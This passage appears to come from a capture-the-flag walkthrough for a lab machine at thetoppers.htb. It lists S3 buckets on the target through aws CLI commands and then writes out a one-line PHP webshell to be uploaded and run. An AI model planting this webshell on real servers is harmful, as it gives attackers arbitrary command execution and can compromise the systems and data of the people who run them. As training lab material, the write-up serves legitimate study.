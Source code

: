 If it's done, we are going to paste:

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

to check buckets hosted.

![aws](./Screenshots/threeaws2.png)

Now, we want to check objects from specified buckets:

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![aws](./Screenshots/threeaws3.png)

### PHP webshell

We want to upload a `PHP webshell`.

```
<?php system($_GET["cmd"]); ?>
```

This PHP one liner captures the "cmd" parameter from a GET request and executes it as a system command on the server. For example, visiting http://example.com/shell.php?cmd=ls will execute the ls command and display the list of files in the current directory. This is very dangerous because it allows remote execution of arbitrary system commands, which can lead to severe security breaches. Such an approach should be avoided, and secure methods for handling user input should be used instead.

Create the file as `.php`.

![shell](./Screenshots/threewebshell.png)
